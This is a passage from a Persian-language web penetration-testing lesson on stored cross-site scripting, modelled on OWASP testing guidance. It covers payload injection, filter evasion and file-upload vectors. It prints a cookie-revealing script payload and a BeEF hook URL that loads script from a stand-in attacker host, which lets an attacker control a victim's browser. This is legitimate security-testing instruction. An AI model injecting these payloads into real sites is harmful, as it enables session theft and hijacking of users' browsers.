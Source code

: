 اطمینان حاصل کنید که ورودی از طریق برنامه ارسال شده‌باشد. این معمولاً شامل غیرفعال کردن جاوا اسکریپت در صورتی که کنترل‌های امنیتی سمت کلاینت اجرا شود یا درخواست HTTP را با یک پروکسی وب تغییر می‌دهد. همچنین مهم است که همان تزریق را با هر دو درخواست HTTP GET و POST آزمایش کنید. تزریق بالا منجر به نمایش یک پنجره popup حاوی مقادیر کوکی می‌شود.
<div dir="ltr">

![XSS](https://github.com/BugHunter021/penetration-test/blob/main/learn/persian/WSTG-INVP/leeson-2/images/5.1.png)
<div dir="rtl">

کد HTML پس از تزریق:
```js
<input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com"> <script>alert(document.cookie)</script>
```

ورودی ذخیره می‌شود و پیلود XSS توسط مرورگر در هنگام بارگذاری مجدد صفحه اجرا می‌شود. اگر ورودی توسط برنامه حذف شود، تست نفودگر باید برنامه را برای فیلترهای XSS آزمایش کند. برای مثال، اگر رشته “SCRIPT” با یک Space یا با یک کاراکتر NULL جایگزین شود، آنگاه این می‌تواند نشانه بالقوه فیلترینگ XSS باشد.

تکنیک‌های مختلفی به منظور گریز از فیلترهای ورودی وجود دارند که می توان از آن ها به منظور عبور از فیلترینگ اعمال شده، استفاده نمود. به شدت توصیه می‌شود که به صفحه زیر که لیست گسترده‌ای از حملات XSS و صفحات فیلترینگ را فراهم می‌کند، مراجعه شود:

https://owasp.org/www-community/xss-filter-evasion-cheatsheet

### مدل Leverage Stored XSS with BeEF

کد XSS ذخیره‌شده یا Stored XSS را می‌توان با چارچوب‌های اکسپلویت پیشرفته JavaScript مانندBeEF و XSS Proxy مورد بهره‌برداری قرار داد.

یک سناریوی بهره‌برداری معمول از BeEF شامل موارد زیر است:

* تزریق یک JavaScript hook که با چارچوب اکسپلویت مرورگر مهاجم ارتباط برقرار می‌کند (BeEF)
* انتظار برای مشاهده صفحه آسیب‌پذیری توسط کاربر برنامه
* کنترل مرورگر کاربر برنامه از طریق کنسول BeEF

همچنین JavaScript hook می‌تواند با استفاده از آسیب‌پذیری XSS در برنامه کاربردی وب تزریق شود.

مثال: تزریق BeEF در index2.php:
```js
http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT>
```

هنگامی که کاربر صفحه index2.php را Load می‌کند، اسکریپت hook.js توسط مرورگر اجرا می‌شود. سپس امکان دسترسی به کوکی‌ها، screenshot کاربر، clipboard کاربر و راه‌اندازی حملات پیچیده XSS وجود دارد.
<div dir="ltr">

![XSS](https://github.com/BugHunter021/penetration-test/blob/main/learn/persian/WSTG-INVP/leeson-2/images/8.1.png)
<div dir="rtl">
این حمله به ویژه در صفحات آسیب‌پذیر که توسط بسیاری از کاربران با امتیازات مختلف مشاهده می‌شوند، موثر است.

### روش File Upload

اگر برنامه کاربردی وب اجازه آپلود فایل را می‌دهد، مهم است که بررسی کنیم آیا امکان آپلود محتوای HTML وجود دارد یا خیر. برای مثال، اگر فایل‌های HTML یا TXT مجاز باشند، پیلود XSS می‌تواند در فایل آپلود شده تزریق شود. تست نفوذگر همچنین باید بررسی کند که آیا فایل آپلود شده اجازه تنظیم MIME Type دلخواه را می‌دهد یا خیر.
